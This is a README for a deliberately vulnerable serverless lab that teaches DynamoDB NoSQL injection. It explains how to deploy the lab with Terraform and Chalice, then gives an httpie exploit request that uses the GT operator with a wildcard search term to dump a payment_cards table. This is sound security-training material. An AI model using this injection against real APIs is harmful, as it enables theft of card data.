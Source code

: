 ## IAM Privilege Escalation - DynamoDB Injection

This attack/payload has been documented in [this](https://medium.com/appsecengineer/dynamodb-injection-1db99c2454ac) article.

On reading, you'll see that its a NoSQL Injection attack that's predicated on using the `gt` operator. One of the main reasons that this attack is made possible, is because of badly configured IAM privileges

### Setup - Infrastructure
We will be using `Terraform` to setup the AWS services and IAM privileges for this lab to work. Please install `Terraform` if you haven't already

[Terraform](https://www.terraform.io/downloads.html)

* In the [ops](iam_privilege_escalation/ops) directory, you'll find the file [db_provision.tf](iam_privilege_escalation/ops/db_provision.tf)
* This will create:
    * The IAM Privileges, Roles and Policies required for this lab to work
    * The DynamoDB database tables required for this (and other) labs to work
    * Loads dummy content into the DynamoDB tables using the `Faker` library
    * Writes a `config.json` file that you can directly copy into the `.chalice` directory in `iam_privilege_escalation/bad-dynamo-search` directory and deploy

### Setup - Chalice
* In the directory `bad-dynamo-search` there should be a `.chalice` directory which has a `config-sample.json`.
* Copy the `config.json` generated in the `ops` directory after you run terraform and paste it in the `.chalice` directory of `bad-dynamo-search`
* Once done, run `chalice deploy` to deploy the function to your AWS Lambda account

this should give you an output with the end-url and other details:

```
Creating deployment package.
Updating lambda function: dvfaas-XXXX
Updating lambda function: dvfaas-xxxx
Updating rest API
Resources deployed:
  - Lambda ARN: arn:aws:lambda:us-east-1:112222211:function:dvfaas-xxxx
  - Lambda ARN: arn:aws:lambda:us-east-1:112222211:function:dvfaas-xxxx
  - Rest API URL: https://xxxx.execute-api.us-east-1.amazonaws.com/api/

```

### Exploit
* Once you are done with the deploy, you can use a HTTP Client or `httpie` to call the function

#### Genuine search with the REST API Function against the user database

```
http POST https://xxxx.execute-api.us-east-1.amazonaws.com/api/search db=<db_name> search_term=Mark search_operator=EQ search_field=first_name
```

Now for the exploit
```
http POST https://xxxx.execute-api.us-east-1.amazonaws.com/api/search db=<db_name (payment_cards)> search_term="*" search_operator=GT search_field=card_number
```

